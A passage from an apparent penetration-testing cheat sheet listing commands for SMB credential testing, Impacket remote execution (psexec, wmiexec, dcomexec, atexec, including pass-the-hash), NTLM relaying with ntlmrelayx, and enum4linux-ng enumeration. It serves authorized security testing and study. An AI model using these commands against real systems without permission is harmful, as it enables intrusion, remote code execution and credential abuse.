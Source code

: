     ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' -M teams_localdb
    ```

#### \[\[Impacket]]

**\[\[Impacket-PSExec]]/\[\[Impacket-SMBExec]]**

*   **Connect via PSExec:** If no password is provided, it will be prompted. Using parameter-k you can authenticate against kerberos instead of NTLM.

    ```bash
    impacket-psexec <domain>/<username>:'<password>'@<target_ip>
    impacket-psexec -hashes <LM:NT> <username>@<target_ip>
    ```

**\[\[Impacket-WMIExec]]**

*   **Connect via WMIExec:** If no password is provided, it will be prompted. Using parameter-k you can authenticate against kerberos instead of NTLM.

    ```bash
    impacket-wmiexec <domain>/<username>:'<password>'@<target_ip>
    impacket-wmiexec -hashes LM:NT <username>@<target_ip>
    ```

**\[\[Impacket-DCOMExec]]**

*   **Connect via DCOMExec:** If no password is provided, it will be prompted. Using parameter-k you can authenticate against kerberos instead of NTLM.

    ```bash
    impacket-dcomexec <domain>/<username>:'<password>'@<target_ip>
    impacket-dcomexec -hashes <LM:NT> <username>@<target_ip>
    ```

**\[\[Impacket-ATExec]]**

*   **Connect via ATExec:**

    ```bash
    impacket-atexec <domain>/<username>:'<password>'@<target_ip> "command"
    impacket-atexec -hashes <LM:NT> <username>@<target_ip> "whoami"
    ```

**\[\[Impacket-NTLMRelayX Cheat Sheet]]**

*   **Start NTLMRelayX:**

    ```bash
    sudo impacket-ntlmrelayx -tf targets.txt -smb2support
    ```

#### \[\[Enum4Linux]]

*   **Enumerate via username/password:** Enumerate information from Windows and Samba systems.

    ```bash
    ./enum4linux-ng.py -A -u <username> -p <password> -d <domain_controller_ip> <target_ip>
    ```

